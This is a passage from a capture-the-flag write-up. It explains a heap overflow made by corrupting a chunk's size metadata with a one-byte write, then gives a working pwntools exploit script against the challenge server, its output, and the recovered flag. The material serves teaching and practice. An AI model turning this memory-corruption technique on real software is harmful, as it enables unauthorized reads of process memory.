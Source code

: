 That way, when printf is called on chunk3, it'll keep reading bytes until it reaches a null terminator. If we've overwritten enough bytes to reach the next chunk, we can read the flag! We don't even need to worry about
overwriting the flag, since it's read into memory after the overflow.


To summarize, we're tricking getchunk into giving us a chunk that it thinks has room for 128 bytes, but it really only has space for 64. We're using this overflow to read into the next chunk in the heap, which happens to contain
the flag. To trick getchunk, we're overwriting the chunk metadata of chunk2 to say it has size 128 using the one-byte write we're given. Let's put it into a working exploit:

```python
from pwn import *

io = remote("amt.rs", 31176)

io.sendlineafter(b"size:", b'8')
io.sendlineafter(b"data:", b'A'*8)




io.sendlineafter(b"size:", b'64')
io.sendlineafter(b"data:", b'A'*64)


io.sendlineafter(b"index:", b'-8') # offset of the chunk2 size metadata
io.sendlineafter(b"character:", b'\x91') # 128 + 17

io.sendlineafter(b"size:", b'128')
io.sendlineafter(b"data", b'I'*128)

io.interactive()

```

And...

```
IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIflag{wh0_kn3w_y0u_c0uld_unm4p_th3_libc}IIIIIIIII is not the flag.
free(): invalid size
```

There we go! I have no idea what the unmapping the libc is about, but we've done it!


`flag{wh0_kn3w_y0u_c0uld_unm4p_th3_libc}`

